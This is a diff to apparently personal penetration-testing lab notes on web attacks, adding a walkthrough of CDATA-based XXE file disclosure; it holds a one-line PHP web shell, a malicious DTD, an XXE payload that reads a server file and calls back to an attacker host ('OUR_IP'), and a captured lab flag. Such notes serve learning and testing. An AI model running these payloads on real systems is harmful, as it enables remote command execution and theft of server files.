

Before and after one commit to QED-92/cyber-security, a Markdown page: web-attacks/web-attacks.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/web-attacks/web-attacks.md
+++ b/web-attacks/web-attacks.md
@@ -909,7 +911,9 @@ We first create a simple PHP web shell and host it on our attacking machine:
 
 ```bash
 echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
+```
 
+```bash
 sudo python3 -m http.server 8001
 ```
 
@@ -924,3 +928,76 @@ We then reference the shell using an external entity:
 If successful, this technique downloads the web shell to the back-end server, potentially allowing arbitrary command execution.
 
 ---
+
+### Advanced File Disclosure - CDATA
+
+In some cases, file contents may not be readable using basic XXE techniques. This can occur when:
+
+- The file contains characters that break XML parsing, or
+- The application does not directly reflect injected entity values
+
+In the previous section, `PHP filter wrappers` were used to base64-encode source code in order to preserve XML syntax. While effective, this approach is limited to environments where such wrappers are available.
+
+An alternative and more flexible technique involves wrapping the contents of an external file inside a `CDATA` section. The `CDATA` construct instructs the XML parser to treat the enclosed content as raw character data, allowing special characters (such as `<`, `>`, and `&`) to be processed without breaking the XML document. This technique can be applied to any file type, not just PHP source code.
+
+**Step 1: Create and Host a Malicious DTD**
+
+We begin by creating a simple external `DTD` file that concatenates multiple entities into a single output:
+
+```bash
+echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
+```
+
+We then host the `DTD` on our attacking machine:
+
+```bash
+python3 -m http.server 8001
+```
+
+**Step 2: Inject CDATA-Based XXE Payload**
+
+Next, we include the following XML entity definitions in the vulnerable request:
+
+```xml
+<!DOCTYPE email [
+  <!ENTITY % begin "<![CDATA[">
+  <!ENTITY % file SYSTEM "file:///flag.php">
+  <!ENTITY % end "]]>">
+  <!ENTITY % xxe SYSTEM "http://OUR_IP:8001/xxe.dtd">
+  %xxe;
+]>
+```
+
+The payload works as follows:
+
+- `%begin` and `%end` define the `CDATA` opening and closing tags
+- `%file` references the target file on the back-end system
+- The external DTD (`xxe.dtd`) combines these entities into a single joined entity
+
+We then reference the constructed entity within the vulnerable `email` element:
+
+```xml
+<email>&joined;</email>
+```
+
+**Step 3: Confirm File Disclosure**
+
+Upon submission, we observe an inbound request to our server, confirming that the external DTD was successfully retrieved:
+
+```
+10.129.234.170 - - [03/Jan/2026 13:56:08] "GET /xxe.dtd HTTP/1.0" 200 -
+```
+
+![Filtered output](images/xxe-advanced3.PNG)
+
+The application returns the contents of the target file, wrapped safely inside a `CDATA` section:
+
+```
+<?php $flag = "HTB{3rr0r5_c4n_l34k_d474}"; ?>
+```
+
+![Filtered output](images/xxe-advanced2.PNG)
+
+---
+
+### Advanced File Disclosure - Error Based
````
Also changed, not shown: other parts of web-attacks/web-attacks.md (+2 -0 lines), web-attacks/images/xxe-advanced.png (added), web-attacks/images/xxe-advanced2.png (added), web-attacks/images/xxe-advanced3.png (added).
